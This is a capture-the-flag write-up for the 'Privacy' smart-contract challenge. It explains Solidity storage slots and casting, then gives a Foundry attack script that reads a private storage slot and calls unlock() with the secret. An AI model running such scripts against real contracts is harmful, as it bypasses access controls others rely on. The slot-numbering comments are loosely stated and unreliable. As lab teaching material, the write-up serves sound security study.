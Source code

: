 # Privacy   
Our mission here is to unlock the contract by changing the variable `locked` from `true` to `false`.
As the description says, "We need to understand how storage works". A must-read is this article from Alchemy: Smart Contract Storage Layout.
Since we have to read the second element of the `data` array, we can see that it'll be in the 5th storage slot:
```solidity
bool public locked = true; // slot 1
uint256 public ID = block.timestamp; // slot 2
uint8 private flattening = 10; // slot3
uint8 private denomination = 255; // slot3
uint16 private awkwardness = uint16(block.timestamp); // slot3
bytes32[3] private data; // slots 4-6
```
We also need to understand how casting works. For this case, we need to know how casting from `bytes32` to `bytes16` works. In this case, `bytes16` will keep the 16 most significant bytes (the leftmost bytes).
For solving this challenge, we have to read the storage and perform the casting. I wrote a script that automates all of this: 
```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
	
	address instance = /* Your instance address */;	

	function run() public {
	bytes32 secret = vm.load( instance, bytes32(uint256(5)) ); //vm.load loads the value from storage at fifth slot
	vm.startBroadcast();
	instance.call(abi.encodeWithSignature("unlock(bytes16)", bytes16(secret)));
	vm.stopBroadcast();
	}
}
```
